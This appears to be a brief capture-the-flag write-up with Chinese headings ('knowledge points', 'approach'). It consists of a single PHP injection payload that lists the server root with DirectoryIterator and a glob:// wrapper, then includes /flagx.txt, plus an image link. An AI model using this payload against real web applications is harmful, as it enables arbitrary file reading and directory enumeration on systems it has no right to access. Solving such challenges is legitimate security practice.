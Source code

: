 # 知识点
# 思路
```php
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};require("/flagx.txt");exit();
```
![image.png](./images/20231017_2351074093.png)

